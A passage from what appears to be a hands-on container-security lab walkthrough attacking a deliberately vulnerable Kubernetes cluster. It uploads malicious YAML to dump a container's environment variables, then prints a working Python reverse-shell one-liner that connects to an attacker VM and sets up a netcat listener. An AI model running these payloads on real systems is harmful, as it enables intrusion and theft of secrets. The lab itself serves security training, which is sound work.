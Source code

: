 
##### Step 4:

* Navigate to `payloads` directory that has malicious yaml files

```bash
cd /home/we45/container-training/Kubernetes/VM/K8s-Cluster-Attack/payloads
```

* Upload a malicious yaml file and identify the flaw

```bash
http --form POST $NGFLASK/upload file@test_payment.yml
```

It should come back with a response similar to the one below

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Thu, 03 Jan 2019 14:35:30 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

* Verify if the malicious transaction that was generated.

```bash
curl -XGET $NGFLASK/status
```

You should see a dump of all Environment variable on the container

### Reverse TCP Shell on our K8s Cluster

##### Step 5:

* Get the VM IP and copy the value. It can be fetched by running `ifconfig` as well

```bash
vmip
```

* In the `payloads` directory, edit `line 2` of `reverse_shell.yml` and replace `VM-IP` with value of `VM IP` fetched in the previous step.

EXAMPLE:

```
["echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.1.1\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' > shell.py && python shell.py &"]
```

* Open a new tab(`Right-Click` and select `Open Tab`) on the terminal to start your netcat listener
